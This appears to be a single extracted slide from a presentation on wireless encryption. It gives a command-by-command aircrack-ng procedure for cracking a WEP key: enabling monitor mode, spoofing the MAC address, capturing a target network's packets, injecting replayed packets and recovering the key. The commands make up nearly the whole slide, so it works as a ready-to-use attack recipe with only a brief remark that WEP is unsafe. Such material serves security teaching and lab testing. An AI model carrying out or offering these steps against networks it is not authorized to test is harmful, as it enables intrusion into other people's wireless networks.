

# Wireless (WEP,WPA,WPA-PSK WPA2-PSK)

There are several types of encryption or security modes

~$ iwconfig
~$ airmon-ng start wlp4s0
That create a monitor i.e. mon0
Sometimes change MAC is needed:
~$ ifconfig interface(mon0) down
~$ macchanger -m 00:11:22:33:44:55 interface
~$ ifconfig interface up
~$ airodump-ng interface
When network target is shown press CTRL+C
Then capture packets:
~$ airodump-ng -c channel -w file --bssid MAC:port interface
Open new terminal without closing the previous:
~$ aireplay-ng -1 6000 -a BSSIDmac -h myMAC interface
But is too slow. This is more fast:
~$ aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b BSSIDmac -h myMAC interface
If there are at least one packet in a new terminal without closing the previous type:
~$ aircrack-ng -z nameNetwork*.cap
Probably we will get the key.
WEP
Is not safe. It is attacked by extracting enough packages.

24